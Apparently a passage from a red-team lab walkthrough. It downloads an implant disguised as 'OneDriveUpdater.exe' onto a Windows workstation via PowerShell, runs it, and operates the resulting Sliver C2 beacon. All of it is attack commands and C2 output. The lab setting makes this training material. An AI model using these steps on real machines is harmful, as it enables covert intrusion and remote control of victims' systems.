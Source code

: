 Switch to the Windows Workstation target (WS01) and download the implant!
```
open command window
cd C:\windows\tasks
C:\windows\tasks>powershell
PS C:\Wndows\Tasks> iwr http://192.168.175.130/OneDriveUpdater.exe -o OneDriveUpdater.exe
```

Execute the implant:
```
.\OneDriveUpdater.exe
```

---
Back on Kali VM, using our Sliver-client window, should now see a call back from the beacon!
```
sliver > http

[*] Starting HTTP :80 listener ...
[*] Successfully started job #2

[*] Beacon 7e5b25a2 wutai-http - 192.168.175.132:50656 (ws01) - windows/amd64 - Sun, 04 Jun 2023 18:52:56 CDT

sliver > jobs

 ID   Name   Protocol   Port  
==== ====== ========== =======
 1    grpc   tcp        31337 
 2    http   tcp        80    
 ```

Select our beacon call back:
```
sliver > use 7e5b

[*] Active beacon wutai-http (7e5b25a2-3489-445e-affb-fd323f3430ec)

sliver (wutai-http) > interactive

[*] Using beacon's active C2 endpoint: https://192.168.175.130
[*] Tasked beacon wutai-http (6e2c27f6)

sliver (wutai-http) > ls

[*] Tasked beacon wutai-http (96eec112)

[+] wutai-http completed task 96eec112

C:\Windows\Tasks (3 items, 10.5 MiB)
====================================
-rw-rw-rw-  CreateExplorerShellUnelevatedTask.job  214 B     Mon May 01 18:46:21 -0700 2023
-rw-rw-rw-  OneDriveUploader.exe                   10.5 MiB  Thu May 18 13:37:03 -0700 2023
-rw-rw-rw-  SA.DAT                                 6 B       Sun Jun 04 14:56:29 -0700 2023


[*] Session f24b05a6 wutai-http - 192.168.175.132:50676 (ws01) - windows/amd64 - Sun, 04 Jun 2023 18:55:32 CDT
```
